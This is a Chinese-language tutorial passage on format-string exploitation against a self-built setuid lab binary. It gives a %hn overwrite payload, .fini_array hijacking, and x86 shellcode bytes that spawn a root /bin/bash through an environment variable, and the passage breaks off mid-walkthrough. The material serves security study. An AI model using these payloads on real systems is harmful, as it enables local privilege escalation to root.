# 利用写入short类型的值

之前一直用的是`%n`，但是格式化参数还有一个`%hn`，可以写入`short`类型的值。而`short`类型的值比较小，所以如果允许的话可以直接用`%hn`写两次来替代上面的写法。

```bash
rz$ ./fmt_vuln.out "A`printf "\x74\xc8\xff\xff----\x76\xc8\xff\xff"`%43968x%11\$n%12\$23609x%13\$n"
... # 中间空出了很多字符
...
[*] value @ 0xffffc874 = 0x0806abcd
```

# 其它

能够覆盖任意内存地址意味着可以控制程序的执行流程。一个选择是覆盖最近的栈帧中的返回地址，比如堆栈溢出。而这只是一种可能的选择，还存在其他目标，这些目标有更容易预测的内存地址。基于**堆栈**的溢出本质上来讲只允许覆盖返回地址，但是格式化字符串提供覆盖任意内存地址的可能性，这就可能发生其他事情。

## 用`.dtors .fini_array`间接修改

在`GCC4.7`以前的版本，编译时会将构造函数和析构函数让在`.ctor`段和`.dtor`段中，分别有`__do_global_ctors_aux`和`__do_global_dtors_aux`去执行

从`GCC4.7`开始，`.ctor`和`.dtor`段被移除，构造函数和析构函数分别存放到`.init_array`和`.fini_array`中

可以通过修改`.dtors`或`.fini_array`表格项来执行shellcode。因为用的是`GCC7.3`，所以以下用`.fini_array`做实验

可以利用环境变量设置`shellcode`的值，将`.dtors`或`.fini_array`添加上`shellcode`的地址，这样在程序结束时就会自动执行`shellcode`。

不过这样需要先取消**堆栈不可执行机制**：

```bash 
rz$ gcc --static -m32 -z execstack fmt_vuln.c -o fmt_vuln.out  # 用静态链接方便演示～～
rz$ sudo chown root.root fmt_vuln.out
rz$ sudo chmod u+s fmt_vuln.out
```

- 设置shellcode

	- 用之前写的`x86`的shellcode即可：`\x31\xdb\x31\xc0\xb0\x17\xcd\x80\x31\xd2\x31\xc0\xb0\x68\x50\xb8\x2f\x62\x61\x73\x50\xb8\x2f\x62\x69\x6e\x50\x89\xe3\x31\xc0\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

	```bash
	rz$ export shellcode=`echo -en "\x31\xdb\x31\xc0\xb0\x17\xcd\x80\x31\xd2\x31\xc0\xb0\x68\x50\xb8\x2f\x62\x61\x73\x50\xb8\x2f\x62\x69\x6e\x50\x89\xe3\x31\xc0\x50\x53\x89\xe1\xb0\x0b\xcd\x80"`
	```
	- 获取shellcode在`./fmt_vuln.out`的地址

	```bash
	rz$ ./getenvaddr shellcode ./fmt_vuln.out
	shellcode will be at 0xffffda10
	```
	- 验证一下

	```bash
	rz$ echo $shellcode  # 这边是环境变量的shellcode
	1�1��̀1�1��hP�/basP�/binP��1�PS���
